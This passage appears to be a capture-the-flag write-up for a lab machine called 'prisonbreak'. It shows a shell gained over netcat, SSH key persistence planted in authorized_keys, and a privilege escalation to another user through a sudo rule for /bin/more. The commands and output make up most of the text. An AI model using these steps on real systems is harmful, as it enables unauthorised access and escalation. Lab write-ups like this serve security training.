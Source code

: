 i esceaped with !/bin/bash and i got shell. 

```
nc  10.0.40.0 1337 -v                                                                                                                                                                    130 ⨯ 2 ⚙
Connection to 10.0.40.0 1337 port [tcp/*] succeeded!
cell1@prisonbreak:/home/cell1$ 
```
then i genereted ssh key and conected via ssh.

```
cell1@prisonbreak:/home/cell1$ whoami    
whoami
cell1

mkdir .ssh
ssh-keygen 
cd .ssh
cp id_rsa.pub authorized_keys
cat id_rsa
```

then i copied the key and connected from my machine. 

chmod 600 more.key
ssh -i more.key cell1@10.0.40.0

*cell1@prisonbreak:*



cell1@prisonbreak:~$ sudo -l
Matching Defaults entries for cell1 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell1 may run the following commands on prisonbreak:
    (cell2) NOPASSWD: /bin/more



### Privilige escelation *more*

[gtfobins](https://gtfobins.github.io/gtfobins/more/)



```
TERM= more /etc/profile
!/bin/bash

cell2@prisonbreak:/home/cell1$ 

$ 

```

cell2@prisonbreak:/home/cell1$ sudo -l
Matching Defaults entries for cell2 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
